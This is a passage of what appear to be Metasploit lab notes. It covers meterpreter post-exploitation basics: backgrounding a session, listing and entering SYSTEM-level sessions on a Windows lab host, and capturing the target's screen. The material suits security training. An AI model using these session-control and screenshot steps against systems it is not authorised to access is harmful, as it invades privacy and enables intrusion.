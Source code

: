 ```cpp
check
```

#### meterpreter

This console is used when a session is established between metasploit and the target system.

To background the session prompt and go back to the msfconsole prompt:

```cpp
meterpreter > background
```

Alternatively, `CTRL+Z` can be used to background sessions.

To get to session:

```cpp
msf6 > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 > sessions -i 2
[*] Starting interaction with 2...
```

can be used to create a printscreen from the target machine:

```python
screenshot
```

***
